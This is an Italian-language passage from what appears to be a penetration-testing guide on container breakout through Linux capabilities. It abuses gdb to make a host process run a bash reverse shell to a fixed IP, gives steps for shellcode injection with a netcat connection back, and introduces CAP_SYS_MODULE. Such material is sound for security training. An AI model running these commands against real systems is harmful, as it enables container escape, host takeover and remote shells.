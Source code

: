 **Esempio con ambiente (Docker breakout) - Un altro abuso di gdb**

Se **GDB** è installato (o puoi installarlo con `apk add gdb` o `apt install gdb`, ad esempio) puoi **debuggare un processo dall'host** e farlo chiamare la funzione `system`. (Questa tecnica richiede anche la capacità `SYS_ADMIN`)**.**
```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```
Non sarai in grado di vedere l'output del comando eseguito, ma verrà eseguito da quel processo (quindi ottieni una rev shell).

> [!WARNING]
> Se ricevi l'errore "No symbol "system" in current context.", controlla l'esempio precedente che carica uno shellcode in un programma tramite gdb.

**Esempio con ambiente (Docker breakout) - Iniezione di Shellcode**

Puoi controllare le capacità abilitate all'interno del contenitore docker usando:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```
Elenca **processi** in esecuzione nell'**host** `ps -eaf`

1. Ottieni l'**architettura** `uname -m`
2. Trova un **shellcode** per l'architettura ([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128))
3. Trova un **programma** per **iniettare** il **shellcode** nella memoria di un processo ([https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c](https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c))
4. **Modifica** il **shellcode** all'interno del programma e **compila** `gcc inject.c -o inject`
5. **Inietta** e prendi la tua **shell**: `./inject 299; nc 172.17.0.1 5600`

## CAP_SYS_MODULE

**[`CAP_SYS_MODULE`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** consente a un processo di **caricare e scaricare moduli del kernel (`init_module(2)`, `finit_module(2)` e `delete_module(2)` chiamate di sistema)**, offrendo accesso diretto alle operazioni fondamentali del kernel. Questa capacità presenta rischi di sicurezza critici, poiché consente l'escalation dei privilegi e il compromesso totale del sistema permettendo modifiche al kernel, bypassando così tutti i meccanismi di sicurezza di Linux, inclusi i Linux Security Modules e l'isolamento dei container.  
**Questo significa che puoi** **inserire/rimuovere moduli del kernel nel/dal kernel della macchina host.**
